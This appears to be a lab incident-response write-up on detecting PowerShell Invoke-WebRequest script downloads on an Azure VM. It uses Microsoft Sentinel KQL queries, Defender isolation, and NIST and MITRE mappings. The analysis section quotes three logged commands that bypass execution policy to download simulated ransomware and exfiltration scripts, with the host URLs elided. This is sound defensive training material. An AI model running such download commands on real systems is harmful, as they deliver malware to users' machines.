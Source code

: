 # 🚨  PowerShell-Suspicious-Web-Request-on-Azure-VM

## 🧩 Scenario Overview
A suspicious use of PowerShell’s Invoke-WebRequest was detected on an Azure virtual machine (LabWill-vm-mde). The event triggered an alert in Microsoft Sentinel, indicating a potential malware infection via script downloads.

This investigation was conducted in alignment with the **NIST SP 800-61 Incident Response Framework** and relevant **MITRE ATT&CK TTPs**.

## 🎯 Objective
Detect, analyze, contain, and mitigate malicious PowerShell script activity using:
- **Microsoft Sentinel (SIEM)**
- **Defender for Endpoint (MDE)**
- **NIST 800-61 Lifecycle**
- **MITRE ATT&CK techniques**

## 📌 Phase 1: Preparation — Create Alert Rule on Sentinel
A Scheduled Query Rule was created in Microsoft Sentinel to detect when PowerShell is used with Invoke-WebRequest:

```kusto
let TargetDevice = "labwill-vm-mde";
DeviceProcessEvents
| where DeviceName == TargetDevice 
| where FileName == "powershell.exe"
| where InitiatingProcessCommandLine contains "Invoke-WebRequest"
| order by TimeGenerated
```

---

## ⚠️ Phase 2: Detection - Incident Triggered
- **Alert Title**: `LabWill-PowerShell Suspicious Web Request`
- **Target Device**: `LabWill-vm-mde`
- **Process Detected**: `powershell.exe`
- **Impact**: Download of 3 scripts via 3 separate commands
- 
Once the alert rule triggered, Microsoft Sentinel automatically generated an incident and produced an investigation map based on the detected activity.

---

## 🕵️ Phase 3: Analysis
🔍 PowerShell Commands Identified

```kusto
powershell.exe -ExecutionPolicy Bypass -Command Invoke-WebRequest -Uri https://.../pwncrypt.ps1 -OutFile C:\programdata\pwncrypt.ps1
powershell.exe -ExecutionPolicy Bypass -Command Invoke-WebRequest -Uri https://.../exfiltratedata.ps1 -OutFile C:\programdata\exfiltratedata.ps1
powershell.exe -ExecutionPolicy Bypass -Command Invoke-WebRequest -Uri https://.../eicar.ps1 -OutFile C:\programdata\eicar.ps1
```

**User Interview**: The user reported attempting to install a free piece of software. A black screen briefly appeared, then nothing else happened.

✅ Execution Confirmation (via MDE)
Verified that the scripts were executed using the query below:

```kusto
let TargetHostname = "labwill-vm-mde";
let ScriptNames = dynamic(["eicar.ps1", "exfiltratedata.ps1", "pwncrypt.ps1"]);
DeviceProcessEvents
| where DeviceName == TargetHostname
| where FileName == "powershell.exe"
| where ProcessCommandLine contains "-File" and ProcessCommandLine has_any (ScriptNames)
| order by TimeGenerated
| summarize Count = count() by AccountName, DeviceName, FileName, ProcessCommandLine
```
---

## 🧪 Reverse Engineering: Script Summaries
Scripts were analyzed by the malware reverse engineering team. Here are their one-liners:

| Script Name             | Function                                                                                                                       |
| ----------------------- | ------------------------------------------------------------------------------------------------------------------------------ |
| `📄 pwncrypt.ps1`       | Simulates ransomware: encrypts fake data on the user's desktop, drops ransom notes demanding Bitcoin.                          |
| `📄 exfiltratedata.ps1` | Generates fake employee data, compresses it, and exfiltrates to an Azure Blob Storage container.                               |
| `📄 eicar.ps1`          | Deploys the standard [EICAR test string](https://www.eicar.org/download-anti-malware-testfile/) to simulate malware detection. |

---

## 🧯 Phase 4: Containment, Eradication & Recovery

| Action        | Details                                               |
| ------------- | ----------------------------------------------------- |
| 🛡️ Isolation | Device isolated using Microsoft Defender for Endpoint |
| 🧼 Scan       | Full anti-malware scan completed                      |
| ✅ Recovery    | Machine released from isolation after clean scan      |

---

## 📘 Phase 5: Post-Incident Actions
- 🧠 The affected user was enrolled in additional cybersecurity awareness training, with more frequent sessions.
- 🔒 Implemented policy to restrict PowerShell usage to essential personnel only.

---

## 🧠 Framework Alignment
## ✅ NIST 800-61 Phases

| Phase                         | Action Taken                                       |
| ----------------------------- | -------------------------------------------------- |
| **Preparation**               | Created Sentinel alert rule                        |
| **Detection & Analysis**      | Investigated PowerShell commands and user behavior |
| **Containment & Eradication** | Isolated and cleaned the system                    |
| **Recovery**                  | Verified no further threat before un-isolating     |
| **Post-Incident Activity**    | Policy and training improvements                   |

## 🎯 MITRE ATT&CK Techniques

| ID          | Name                                           |
| ----------- | ---------------------------------------------- |
| `T1059`     | Command and Scripting Interpreter (PowerShell) |
| `T1105`     | Ingress Tool Transfer (script download)        |
| `T1567.002` | Exfiltration Over Web Service: Cloud Storage   |

---

## Created By:
- **Author Name**: Tinan Makadjibeye  
- **Author Contact**: [LinkedIn profile](https://www.linkedin.com/in/makadjibeye-tinan)  
- **Date**: June 2025
  
---
